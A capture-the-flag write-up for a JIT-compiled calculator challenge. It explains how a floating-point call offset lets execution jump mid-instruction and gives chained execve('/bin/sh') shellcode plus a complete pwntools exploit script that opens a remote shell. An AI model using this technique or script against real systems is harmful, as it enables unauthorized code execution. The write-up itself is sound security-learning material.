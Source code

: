 # Calculator

## Description

```
Hey, I made this JIT compiled calculator! Could you take a look at it and see if it's vulnerable? I left a flag on the server as a reward.
```

## Challenge

Let's see what this executable does, running it gives us

```
1. Add instruction
2. Print instructions
3. Evaluate
Action:
```

when doing static analysis, I noticed that the instructions that you can send with add instruction are in this form `operation llu` where operation is one of `add/sub/xor` then the interesting part is evaluate.

![](images/segfaulteval.png)

we can put in input how many instructions to skip, then the program compiles the instructions jit and executes them.
This is the format of an instruction that is jit compiled

![](images/instruction.png)

The strange thing is that the offset is taken from input as a floating point number, and then is calculated by multiplying 13.0 in floating point.
This means we can also call in the middle of a jit compiled instruction.
From the image above we know that we control 8 bytes inside a jit compiled instruction, starting from the third byte.

By using an offset of 2/13 rounded up, we can jump to the third byte, but in this small space what can we do?
After a bit of tinkering with trying to make a shellcode using registers  like `r12, r13` for intermediate usage and then trying to call syscall I had no luck, I tried to leak something so I could jump somewhere else, but after a while I had the idea, we can chain a shellcode and at the end of every link of the chain we can do a short jump to the next link.
I grabbed this [shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php) and adapted it in links of 6 bytes maximum followed by `jmp $+7` but I had some issues, instructions like `mov rbx, 0xFF978CD091969DD1` take 10 bytes so we can't use them, so I changed some stuff to account for this.
This is the final shellcode separated in links

```assembly
mov ebx, 0xFF978CD0

shl rbx, 32

mov eax, 0x91969DD1

or rbx, rax

xor eax, eax
neg rbx
push rbx

push rsp
pop rdi
cdq
push rdx
push rdi
push rsp

pop rsi
mov al, 0x3b
syscall
```

then using pwntools I assembled each instruction using this function

```python
jmpshort = asm("jmp $+7")

def pad(f):
    return asm(f).ljust(6,b"\x90") + jmpshort
```

basically the same as what I explained before but padding `NOP` instructions so we don't run in any issues and we can keep the same short jump

## Solution
This is the final script

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('calculator')

host = args.HOST or 'localhost'
port = int(args.PORT or 4444)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
tbreak main
break jit
break *jit+542
continue
'''.format(**locals())

# -- Exploit goes here --

def halftrunc(num, n):
    integer = int((num * (10**n) + 1)) / (10**n)
    return float(integer)

jmpshort = asm("jmp $+7")
def pad(f):
    return asm(f).ljust(6,b"\x90") + jmpshort

stages = [
pad("mov ebx, 0xFF978CD0"),
pad("shl rbx, 32"),
pad("mov eax, 0x91969DD1"),
pad("or rbx, rax"),
pad("""
xor eax, eax
neg rbx
push rbx
"""),
pad("""
push rsp
pop rdi
cdq
push rdx
push rdi
push rsp
"""),
pad("""
pop rsi
mov al, 0x3b
syscall
""")
]


multiplier = halftrunc(2/13, 4)

io = start()

for i, x in enumerate(stages):
    io.sendline(b"1")
    inst = b"add " + str(u64(x)).encode()
    # print(inst)
    io.sendline(inst)

io.sendline(b"3")
io.sendline(str(multiplier).encode())


io.interactive()
```

after running this script on the remote server, we get a shell and inside the home there's the flag

`gigem{ju57_1n_71m3_f0r_4_5h3ll!}`
